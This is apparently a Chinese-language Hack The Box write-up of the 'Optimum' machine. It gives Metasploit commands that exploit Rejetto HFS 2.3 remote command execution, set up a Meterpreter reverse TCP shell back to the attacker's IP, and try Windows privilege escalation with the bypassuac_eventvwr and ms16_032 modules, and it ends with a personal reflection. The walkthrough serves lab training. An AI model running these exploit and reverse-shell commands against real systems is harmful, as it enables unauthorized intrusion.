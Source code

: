 ```yaml
---
title: Optimum（win64-msf提权）
categories:
- training
tags:
- training
---
```

Optimum（win64-msf提权）

参考资料：https://isroot.nl/2018/06/25/hack-the-box-write-up-optimum/

```
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 命令
```
searchsploit hfs
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution

msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set LHOST 10.10.14.17
set SRVHOST 10.10.14.17 
run

background
```
**sysinfo**
```
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
## 提权
```
search suggester
use post/multi/recon/local_exploit_suggester

[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.

use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST tun0
set LHOST tun0  不知道为什么要设置两遍，才能成功设置为该网卡
run
失败，用户不是admin组，不能提权

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set LHOST tun0
set LHOST 10.10.14.17
set SESSION 1
show options
run
提权依然失败。

shell
whoami
optimum\kostas

net user
Administrator            Guest                    kostas
```
## writeup

job.rc
```
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.17
set SRVHOST 10.10.14.17 
run
```
`msfconsle -r job.rc`

用sysinfo命令，可以发现`Meterpreter     : x32/windows`，而目标系统是64位。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07/4.PNG)
没有发现任何可用exp，可用来提权。
获得了SESSION 4
 
search CVE-2016-0099
search CVE-2017-0100
```
search exploit/windows/local
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 1
set LPORT 4445
set LHOST 10.10.14.17
set target 1        target0代表winx86, target1 代表winx64
```
又失败了

## 问题
在meterpreter上传文件的时候，会遇到这种问题：
`core_channel_open: Operation failed: Access is denied`

可能是权限不够
解决方法： 用lcd，getlwd切换本地目录，用cd切换到`C:\Users\kostas\Desktop`

## 再次提权
提权工具：https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/README.md
执行的命令：`python windows-exploit-suggester.py --database 2019-02-07-mssb.xls --systeminfo sys.txt`
 找到可用提权的漏洞，然后msf上传exe到有执行权限的目录，即可得到最高权限。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07/5.PNG)

## 总结

世界上的事情分为两种：

一种是努力过以后可以做到的；一种是无论自己怎么努力，也是做不到的。

首先要努力，才知道自己的极限。然后坦然接受结果。

```
逆来顺受、随波逐流、浑浑噩噩地也是一辈子，一直卡着自己的脖子往上爬，摔下来痛苦一场，再咬牙继续往上爬，也算一辈子。
　　结果怎么样，谁也不能未卜先知。　　
　　前者觉得后者累、自讨苦吃，后者觉得前者糊里糊涂、可怜。
　　各有各的活法，谁也不能说谁错，可是人得挑一种对得起自己的活法——所谓对得起自己，就是甘当废柴也好，逆水行舟也好，都得坦坦荡荡。
　　愿意活得轻松自在的，看见别人香车宝马、功成名就，得能没有一点艳羡之心，知道自己是怎么回事，所以无论遇到什么事，也绝不会不甘心。至于那些知道自己一定会不甘心的，最好就马上洗干净脸，该干什么干什么去。
　　任何时候，都不会后悔，不会焦虑，不会讨厌自己，不会觉得自己浪费了生命，那就是对得起自己的活法。
```